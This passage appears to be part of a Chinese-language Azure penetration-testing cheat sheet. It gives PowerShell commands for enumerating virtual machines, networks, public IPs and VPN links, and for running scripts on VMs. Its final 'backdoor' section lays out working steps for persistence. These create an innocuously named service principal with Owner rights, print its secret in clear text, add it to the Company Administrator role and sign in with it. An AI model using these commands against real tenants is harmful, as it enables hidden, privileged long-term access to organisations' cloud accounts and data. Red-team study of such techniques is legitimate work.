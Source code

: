 ## 虚拟机

列出虚拟机并获取操作系统详细信息

```
Get-AzVM
$vm = Get-AzVM -Name "VM Name" 
$vm.OSProfile
```

在虚拟机上运行命令

```
Invoke-AzVMRunCommand -ResourceGroupName $ResourceGroupName -VMName $VMName -CommandId RunPowerShellScript -ScriptPath ./powershell-script.ps1
```

## 建立工作关系网

列出虚拟网络

```
Get-AzVirtualNetwork
```

列出分配给虚拟网卡的公共 IP 地址

```
Get-AzPublicIpAddress
```

获取 Azure ExpressRoute (VPN)信息

```
Get-AzExpressRouteCircuit
```

获取 Azure VPN 信息

```
Get-AzVpnConnection
```

## 后门

创建一个新的 Azure 服务主体作为后门

```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
#Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```
